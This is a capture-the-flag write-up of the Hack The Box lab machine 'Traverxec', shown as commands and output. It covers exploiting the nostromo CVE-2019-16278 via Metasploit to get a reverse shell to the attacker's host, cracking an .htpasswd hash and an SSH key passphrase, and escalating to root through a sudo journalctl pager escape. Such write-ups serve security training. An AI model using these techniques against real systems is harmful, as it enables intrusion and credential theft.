


# Traverxec #


This is a fun machine to work on since like in the real world it shows how different pieces can by tied
together to get a major compromise.

## Recon ##
As always the first step is to identify the services running on the target, there are
different tools for this but we are going to use nmap for this.

```
> nmap -sC -sT -sV -oA recon traverxec.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 03:32 UTC
Nmap scan report for traverxec.htb (10.10.10.165)
Host is up (0.16s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.55 seconds
```
So there are two ports exposed in this machine, first one is ssh on port 22 and the second one is nostromo on port 80, this one caught my attention since it is the first time I hear this web server.
After googling a bit it seems that the version running on this host is vulnerable to [2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278), this will allow us to achieve RCE.

## Initial Foothold ##
There seems to be a module on metasploit already ...
```
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.2:4444 -> 10.10.10.165:48140) at 2020-04-10 03:52:11 +0000
```
After getting a shell in the system it is important to continue doing RECON and look for
users, groups, configuration files and other files and services of interest in the system.
After looking at the /etc/passwd file a user named *david* was identified.
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
david:x:1000:1000:david,,,:/home/david:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

```
Also a .htpasswd file was located in the web server path for the same user david, this looked promising.
```
cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```
At this point, I started to bruteforce this hash, in cases where you cannot identify the
hash you can use the tool hash-identifier that is on kali.
```
 HASH: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/

Possible Hashs:
[+] MD5(Unix)
```
After that we do a quick dictionary attack using hashcat and the famous rockyou dictionary, after a few minutes we got the password in clear text form.
```
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me

Session..........: hashcat
Status...........: Cracked
Hash.Type........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
Time.Started.....: Fri Apr 10 05:42:43 2020 (14 mins, 19 secs)
Time.Estimated...: Fri Apr 10 05:57:02 2020 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    12279 H/s (10.11ms) @ Accel:256 Loops:125 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 10776576/14344387 (75.13%)
Rejected.........: 0/10776576 (0.00%)
Restore.Point....: 10775552/14344387 (75.12%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
Candidates.#1....: Nursemom75 -> Nov2599

Started: Fri Apr 10 05:42:30 2020
Stopped: Fri Apr 10 05:57:03 2020
```
Armed with the password I jump right at a terminal and tried to SSH into the machine with
that user and password combination, sadly that did not work seems like David does not
reuse passwords :'( what a bummer.

## Getting user ##
After lurking around, the configuration files for the nostromo server revealed something
interesting.
```
cat /var/nostromo/conf/nhttpd.conf
# MAIN [MANDATORY]

servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html

# LOGS [OPTIONAL]

logpid			logs/nhttpd.pid

# SETUID [RECOMMENDED]

user			www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons			/var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs		/home
homedirs_public		public_www
```
The homedirs\* directive reminds me of the Apache capability to share users directories inside their home that could be accessed like http://host/~user. After doing that for our user
david we are presented with this page.

Seems promising but there are no links, returning back to my shell I tried to list the public\_www folder for user david since even though we do not have permission to read david's home itself at lease we should be able to see public\_www and there it was another folder
called protected-file-area.  
```
ls /home/david/public_www/
index.html
protected-file-area
```
Inside that folder there is a backup file and maybe that is a ssh key ...

```
ls -la /home/david/public_www/protected-file-area/
total 16
drwxr-xr-x 2 david david 4096 Oct 25 17:02 .
drwxr-xr-x 3 david david 4096 Oct 25 15:45 ..
-rw-r--r-- 1 david david   45 Oct 25 15:46 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25 17:02 backup-ssh-identity-files.tgz
```
If we navigate to http://traverxec/~david/protected-file-area we are greeted with a basic http auth if we use the current credentials we have we are able to download the file.

After downloading the file and attempting to use the ssh key we found out that is protected
with a password, there is a cool tool to bruteforce ssh keys called [mm_id_rsa_bruteforce](https://github.com/readonlymaio/mm_id_rsa_bruteforce).

```
❯ bash mm_id_rsa_bruteforce/mm_id_rsa_bruteforce.sh rockyou.txt id_rsa
I'm testing these passwords: rockyou.txt Against this key file: id_rsa
****************
*Found password: hunter
****************
```
Now that we have the passphrase for the key, we can try access the machine with our
ssh key.
```
❯ ssh david@10.10.10.165 -i id_rsa
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Fri Apr 10 11:14:59 2020 from 10.10.14.14
david@traverxec:~$
```
Listing the files on the home directory we find our first flag user.txt, and a directory called bin (that seems interesting).
```
david@traverxec:~$ ls -l
total 12
drwx------ 2 david david 4096 Apr  9 17:15 bin
drwxr-xr-x 3 david david 4096 Oct 25 15:45 public_www
-r--r----- 1 root  david   33 Oct 25 16:14 user.txt
```
## Getting root ##

That bin directory has 2 files on them.
```
david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Apr  9 17:15 .
drwx--x--x 6 david david 4096 Apr  9 17:47 ..
-r-------- 1 david david  802 Oct 25 16:26 server-stats.head
-rwx------ 1 david david  363 Oct 25 16:26 server-stats.sh
```
Examining file server-stats.head does not reveal anything of interest.
```
david@traverxec:~/bin$ cat server-stats.head
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""'

```
The file server-stats.sh however shows something interesting ...
```
david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
Since this is a script most likely it is run without any kind of interactive mode, that
means that the last line most likely will run journalctl without any password required
for the sudo command, journalctl has a neat feature that uses a system pager like more or less to allow you to scroll through the output and that meas we can call a shell using
!/bin/sh
```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Thu 2020-04-09 16:39:04 EDT, end at Fri 2020-04-10 14:42:06 EDT. --
Apr 10 14:01:22 traverxec sudo[3982]: pam_unix(sudo:auth): auth could not identify password for [www-
Apr 10 14:01:22 traverxec sudo[3982]: www-data : user NOT in sudoers ; TTY=unknown ; PWD=/usr/bin ; U
Apr 10 14:06:19 traverxec sudo[4001]: pam_unix(sudo:auth): conversation failed
Apr 10 14:06:19 traverxec sudo[4001]: pam_unix(sudo:auth): auth could not identify password for [www-
Apr 10 14:06:19 traverxec sudo[4001]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; U
lines 1-6/6 (END)
!/bin/sh
# ls /root
nostromo_1.9.6-1.deb  root.txt
```
And here we have our second flag root.txt now we are just a cat away to have or trophy. 
To know more about this quirks of \*nix derivates systems you can checkout
[gftobins](https://gtfobins.github.io/gtfobins/) there are a lot of binaries that can
be leveraged to have a shell in restricted environments.

